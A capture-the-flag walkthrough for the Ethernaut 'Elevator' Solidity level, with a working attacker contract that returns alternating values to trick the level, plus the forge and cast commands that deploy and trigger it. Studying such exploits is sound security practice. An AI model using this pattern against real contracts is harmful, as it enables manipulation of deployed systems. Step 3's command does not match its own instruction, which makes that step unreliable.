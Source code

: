 ## Elevator Level Outline

**Difficulty : 4/10**

This elevator won't let you reach the top of your building. Right?

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xaB4F3F2644060b2D960b0d88F0a42d1D27484687)

## Solution

We can create a 'switch' variable that can be flipped after every function call effectively returning a different value on every call.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Building {
    Elevator elevator;
    bool isTopFloor = false;

    constructor(address _elevator) {
       elevator = Elevator(_elevator); 
    }

    function attack() public {
        elevator.goTo(42);
    }
     
    function isLastFloor(uint _floor) external returns (bool) {
        bool tempSwtich = isTopFloor; 
        isTopFloor = !isTopFloor;
        return tempSwtich;
    }
}

interface Elevator {
    function goTo(uint _foor) external;
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Building --constructor-args $LEVEL_ADDRESS --private-key $PRIVATE_KEY 
```

##### 3. Call our newly deployed contract 
```console
cast send $LEVEL_ADDRESS "attack()" --gas 300000 --private-key $PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

##### 4. Quick confirmation that boolean top has been changed
```console
cast call $LEVEL_ADDRESS "top()"
```
output 
```
0x0000000000000000000000000000000000000000000000000000000000000001
```
> variable top has changed form false to true

## Extra Resources
`public` and `private` are **visibility modifiers**

`pure` and `view` are **state modifiers**

- `pure`: promises functions that will neither read from nor modify the state. Note: Pure replaces constant in more recent compilers.
- `view`: promises functions that will only read, but not modify the state
- `default`: [no modifier] promises functions that will read and modify the the state

You can use the **view function modifier** on an interface in order to prevent state modifications. The **pure function modifier** also prevents functions from modifying the state. 

Read more about state modifiers [here](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions)
